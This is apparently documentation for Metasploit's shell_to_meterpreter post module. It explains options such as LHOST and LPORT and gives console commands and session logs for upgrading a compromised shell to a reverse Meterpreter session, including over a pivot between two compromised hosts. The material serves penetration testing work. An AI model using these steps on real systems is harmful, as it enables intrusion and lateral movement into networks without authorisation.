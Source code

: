 `shell_to_meterpreter` allows you to upgrade a shell session to Meterpreter. It can be launched as
a post module, or from the `sessions` command. By default, this module will use a reverse
Meterpreter.

## Important Options

**HANDLER**

The handler option is for starting a multi/handler to receive the connection. By default this is
true, because you will need it. But if for some reason if you're setting one separately, you may
want to consider having it as false.

**LHOST**

The LHOST option is for the reverse Meterpreter you are upgrading to. By default, the module can
figure it out for you. But over a pivot, you will need to manually set this, because session
objects don't necessarily have that information.

**LPORT**

The LPORT option is also for the reverse Meterpreter you are upgrading to.

**PAYLOAD_OVERRIDE**

This is an advanced option. If you don't want to use the default reverse Meterpreter, then you can
use this.

## Scenarios

**Using sessions -u**

`sessions -u` is the same as running the post module against a specific session. However, this
is limited to using the default reverse Meterpreter payload, so you will not be able to use it
via a pivot.

Usage is rather simple. At the msf prompt, first off, read the sessions table to see which one you
want to upgrade:

```
msf > sessions

Active sessions
===============

  Id  Type           Information  Connection
  --  ----           -----------  ----------
  1   shell windows               192.168.146.1:4444 -> 192.168.146.128:1204 (192.168.146.128)

msf >
```

In this demonstration, session 1 is a shell, so we upgrade that:

```
msf > sessions -u 1
```

**Upgrading a shell via a pivot**

This scenario is a little tricky, because the default options won't work over a pivot. The problem
is that if you got a session with a bindshell, your LHOST will say "Local Pipe". And if you got it
with a reverse shell, the LHOST is actually an IP range. Neither is an acceptable format for the
LHOST option.

There are two ways you can choose: either you must manually set LHOST, or you could choose a
bind Meterpreter. The second is really easy, all you need to do is ```set PAYLOAD_OVERRIDE```.

If you prefer to manually set LHOST, this should be the compromised host you're pivoting from.
Perhaps a digram will help to explain this:

```
|-------------|       |-------------------|       |-------------------|
|   Attacker  | <---> | Compromised box A | <---> | Compromised box B |
|-------------|       |-------------------|       |-------------------|
 192.168.146.1         192.168.146.128
                       192.168.1.101 (VPN)          192.168.1.102(VPN)
```

In this example, let's start with breaking into box A (192.168.146.128):

```
[*] Sending stage (957999 bytes) to 192.168.146.128
[*] Meterpreter session 1 opened (192.168.146.1:4444 -> 192.168.146.128:1208) at 2016-04-28 22:45:09 -0500

meterpreter >
```

We decide that box A is on a VPN, with IP 192.168.1.101. Also, we found box B as 192.168.1.102. We
need to create that pivot:

```
msf > route add 192.168.1.1 255.255.255.0 1
[*] Route added
```

And we break into box B (192.168.1.102) with a Windows bind shell:

```
[*] Command shell session 2 opened (Local Pipe -> Remote Pipe) at 2016-04-28 22:47:03 -0500
```

Notice this says "Local Pipe", which means the box B's session object doesn't really know box A's IP.
If you try to run shell_to_meterpreter this way, this is all you get:

```
msf post(shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[-] LHOST is "Local Pipe", please manually set the correct IP.
[*] Post module execution completed
```

To upgrade box B's shell, set LHOST to box A's 192.168.1.101. And that should connect correctly:

```
msf post(shell_to_meterpreter) > run

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.1.101:4433 via the meterpreter on session 1
[*] Starting the payload handler...
[*] Sending stage (957999 bytes) to 192.168.1.102
[-] Powershell is not installed on the target.
[*] Command stager progress: 1.66% (1699/102108 bytes)
...
[*] Command stager progress: 100.00% (102108/102108 bytes)
[*] Meterpreter session 3 opened (192.168.146.1-192.168.146.128:4433 -> 192.168.1.102:1056) at 2016-04-28 22:50:56 -0500
```
